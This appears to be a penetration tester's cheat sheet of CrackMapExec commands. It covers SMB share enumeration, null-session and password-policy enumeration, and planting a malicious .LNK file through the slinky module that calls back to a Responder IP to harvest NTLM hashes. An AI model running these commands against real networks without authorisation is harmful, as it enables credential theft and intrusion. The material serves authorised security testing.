 ```yaml
---
description: Examples of CrackMapExec commands that I use throughout penetration tests.
---
```


# CrackMapExec Examples

## Harvest NTLMv2/v1 credentials if you have write-access to a share.

Enumerate the hosts shares

```bash
crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] --shares
```

Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP]
```

After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP] CLEANUP=True
```

## Null Session Enumeration

Enumerate null sessions:

```bash
cme smb [TARGETS] -u '' -p ''
```

Enumerate domain password policy:

```bash
cme smb [TARGET] --pass-pol
```

Enumerate users (domain controller)

```bash
cme smb [TARGET] --users
```

## References

{% embed url="https://mpgn.gitbook.io/crackmapexec/smb-protocol/enumeration/enumerate-null-sessions" %}

{% embed url="https://twitter.com/mpgn_x64/status/1453018750253424643" %}
